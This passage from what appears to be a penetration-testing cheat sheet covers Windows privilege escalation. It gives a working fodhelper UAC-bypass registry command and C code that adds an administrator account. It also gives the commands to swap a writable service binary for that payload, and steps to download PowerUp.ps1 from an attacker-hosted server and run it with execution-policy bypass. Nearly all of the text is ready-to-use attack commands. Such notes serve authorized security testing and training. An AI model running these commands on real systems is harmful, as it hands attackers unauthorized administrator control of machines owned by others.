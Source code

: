 UAC Bypass with `fodhelper.exe`, a Microsoft support application responsible for managing language changes in the operating system. Runs as high integrity on `Windows 10 1709`
- "[First entry: Welcome and fileless UAC bypass](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)"
- "[UAC Bypass – Fodhelper](https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/)"
- `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`


### Insecure File Permissions

Also called "Service Binary Hijacking". Exploit insecure file permissions on services that run as nt authority\system
1. List running services on Windows using PowerShell `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
2. Enumerate the permissions on the target service `icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
   - For this scenario, any user (BUILTIN\Users) on the system has full read and write access to it
   - See also "[Serviio PRO 1.8 DLNA Media Streaming Server - Local Privilege Escalation](https://www.exploit-db.com/exploits/41959)"
3. Substitute `ServiioService.exe` with the following
   ```C
   #include <stdlib.h>
   int main () {
     int i;
     i = system ("net user [username] [password] /add");
     i = system ("net localgroup administrators [username] /add");
     return 0;
   }
   ```
   - `i686-w64-gcc adduser.c -o adduser.exe` or `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe` to Cross-Compile the C Code to a 64-bit application
   - `move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"`
   - `move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"`
   - `dir "C:\Program Files\Serviio\bin\"`
4. Restart the service, here's two options
   - `net stop Serviio`
   - `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'Serviio'}` Obtain Startup Type for Serviio service
   - Check `Startmode` of the service with `wmic service where caption="Serviio" get name, caption, state, startmode`
   - If it's `Auto`, it means that it will restart after a reboot. Reboot with `shutdown /r /t 0 `.
5. Check if it worked with `net localgroup Administrators`

**PowerUp.ps1**
1. Check [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) and make it available with `python3 -m http.server 80`
2. Download it from the victim machine `iwr -uri http://<IP>/PowerUp.ps1 -Outfile PowerUp.ps1`
3. Run the commands `powershell -ep bypass` and `. .\PowerUp.ps1`
4. Then run `Get-ModifiableServiceFile` to display services the current user can modify
5. Run `Install-ServiceBinary -Name 'mysql'`. If it throws an error even if you already know that the current user has full access permissions on the service binary, proceed with manual exploitation
